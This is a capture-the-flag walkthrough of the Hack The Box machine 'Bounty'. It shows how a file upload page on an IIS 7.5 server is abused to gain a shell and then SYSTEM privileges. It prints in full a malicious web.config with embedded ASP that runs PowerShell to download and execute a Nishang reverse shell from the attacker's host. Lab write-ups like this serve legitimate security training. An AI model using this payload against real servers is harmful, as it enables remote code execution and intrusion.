 ```yaml
---
title:     "Hack The Box - Bounty"
tags: [windows,easy,file-upload-vuln,isi]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/1.png)

We are going to pwn Bounty from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/142>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/2.png)

Nothing interesting, lets run ``Gobuster``.

Gobuster Scan Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/09 19:03:45 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/transfer.aspx (Status: 200)
/uploadedfiles (Status: 301)
===============================================================
2020/03/09 19:10:48 Finished
===============================================================

```

``/transfer.aspx`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/3.png)

There is a file upload options so I guess we can upload a reverse shell here and access them in ``/uploadedfiles``

## Test:

I uploaded ``wolf.jpg`` and it Successfully Uploaded

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/4.png)

``/uploadedfiles/wolf.jpg``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/5.png)

So I tried uploading ``.aspx`` file and I get Invalid File.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/6.png)

I googled about ISI 7.5 exploits and found there is a RCE via uploading ``web.config``.

> Reference https://sethjackson.github.io/2018/10/27/rce-through-web-config-upload/

So I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get shell.

If we look at the Shell it gives us some of the examples.

```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
I copied one of the example and changed it to my IP and paste it in bottom of the file. <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/7.png)<br/>
This not only load the module but also the shell give me a callback.

Started python server.

``web.config``

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<% Response.write("-"&"->") %>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

<% Response.write("<!-"&"-") %>
-->
```

Uploaded ``web.config``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/8.png)

Now I need to visit ``10.10.10.93/uploadedfiles/web.config`` and I will get the shell.

``Status 200`` means it successfully downloaded to the box. And NC give me the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/9.png)

I changed to Metasploit

``systeminfo``

```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          3/9/2020, 6:53:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,573 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,575 MB
Virtual Memory: In Use:    520 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
```

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

> A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

We can try ``local_exploit_suggester`` this will give us some suggestions to exploit. Before that we need to ``migrate`` process inorder to make it stable. So I won’t face any errors while using any exploit. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/10.png)

Now Background the session and run ``local_exploit_suggester``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/11.png)

It displayes a lot of vulnerable so I chose random one ``windows/local/ms10_092_schelevator``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/12.png)

Got Authority\System